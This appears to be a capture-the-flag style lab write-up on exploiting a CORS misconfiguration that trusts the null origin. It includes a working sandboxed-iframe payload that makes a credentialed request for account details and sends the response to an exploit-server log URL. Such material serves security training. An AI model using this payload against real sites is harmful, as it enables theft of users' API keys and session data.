

# CORS Vulnerability with Trusted `null` Origin

## Overview

This lab demonstrates a **CORS misconfiguration** where the application trusts the `null` origin and allows credentialed cross-origin requests.

The vulnerability can allow an attacker-controlled page to retrieve sensitive data from an authenticated user's session.

---

## Lab Objective

Retrieve the administrator's API key using a CORS exploit and submit it to complete the lab.

**Credentials provided by the lab:**

```text
Username: wiener
Password: peter
```

---

## Vulnerability Discovery

### 1. Identify CORS Configuration

After logging into my account, I navigated to the **Account Details** functionality and inspected the HTTP response using Burp Suite.

The response contained:

```http
Access-Control-Allow-Credentials: true
```

This indicated that the application permits credentialed cross-origin requests.


---

### 2. Test the `Origin` Header

I modified the request's `Origin` header to an external origin:

```http
Origin: https://www.google.com
```

The application did not return the sensitive response to the cross-origin request.

I then changed the origin to:

```http
Origin: null
```

The server returned the response and included:

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

This confirmed that the application explicitly trusted the `null` origin.



---

## Exploitation

To exploit the misconfiguration, I created a sandboxed iframe on the exploit server.

The sandboxed iframe generates a `null` origin. The JavaScript then:

1. Sends a request to the vulnerable `/accountDetails` endpoint.
2. Includes credentials using `withCredentials = true`.
3. Reads the returned response.
4. Sends the response to the exploit server's access logs.

### Exploit Payload

```html
<iframe sandbox="allow-scripts" srcdoc="<script>
var req = new XMLHttpRequest();

req.onload = reqmethod;

req.open(
    'GET',
    'https://0af500bd0384c9ad81a2f24800880015.web-security-academy.net/accountDetails',
    true
);

req.withCredentials = true;

req.send();

function reqmethod() {
    location =
        'https://0a83009803b6c96b818ef14901500040.exploit-server.net/log?key='
        + encodeURIComponent(this.responseText);
}
<\/script>">
</iframe>
```

I replaced the target lab URL and exploit-server URL with the values from my lab instance.


---

## Root Cause

The application incorrectly trusts the `null` origin while also allowing credentials:

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

This combination allows a specially crafted sandboxed page with a `null` origin to make credentialed cross-origin requests and read sensitive responses.

---

## Key Takeaways

* CORS controls whether a browser allows JavaScript to read cross-origin responses.
* `Access-Control-Allow-Credentials: true` permits credentialed CORS requests.
* A sandboxed iframe can produce a `null` origin.
* Trusting `null` as an allowed origin can lead to sensitive data exposure.
* CORS validation should use a strict allowlist of trusted origins rather than blindly trusting attacker-controlled or special origins.

## Lab Status

**Solved — Administrator API key successfully retrieved.**
